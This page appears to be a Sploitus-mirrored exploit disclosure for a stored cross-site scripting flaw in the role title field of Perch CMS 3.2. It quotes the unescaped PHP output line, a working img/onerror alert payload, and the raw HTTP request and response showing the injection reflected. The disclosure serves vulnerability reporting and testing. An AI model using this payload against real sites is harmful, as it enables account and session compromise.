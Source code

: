 ```yaml
---
title: Perch CMS 3.2 Cross Site Scripting exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173914&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-08-03
fetch_date: 2025-10-04T11:58:49.912978
---
```


# Perch CMS 3.2 Cross Site Scripting exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Perch CMS 3.2 Cross Site Scripting

2023-08-02 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173914
# Exploit Title:
# Date: 07/2023
# Exploit Author: Andrey Stoykov
# Version: 3.2
# Tested on: Windows Server 2022
# Blog: http://msecureltd.blogspot.com

XSS #1:

File: roles.edit.post.php

Line #57:

[...]
<div class="field-wrap <?php echo $Form->error('roleTitle', false);?>">
<?php echo $Form->label('roleTitle', 'Title'); ?>
<div class="form-entry">
<?php echo $Form->text('roleTitle', $Form->get($details,
'roleTitle')); ?>
</div>
</div>
[...]

Steps to Reproduce:

1. Login to application
2. Go to Roles
3. Select Title
4. Enter payload TEST"><img src=x onerror=alert(1)>

// HTTP POST request

POST /perch/perch/core/users/roles/edit/?id=1 HTTP/1.1
Host: 192.168.1.11
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0)
Gecko/20100101 Firefox/114.0
[...]

roleTitle=TEST%22%3e%3cimg+src%3dx+onerror%3dalert%281%29%3e&privs-perch%5b%5d=1&btnsubmit=Save+changes&formaction=core&token=0389a6698f1911a162fdb71328dd2af0

// HTTP response

HTTP/1.1 200 OK
Server: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.2.4
[...]

[...]
<a href="/perch/perch/core/users/roles/edit/?id=1">TEST"><img src=x
onerror=alert(1)></a>
[...]
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)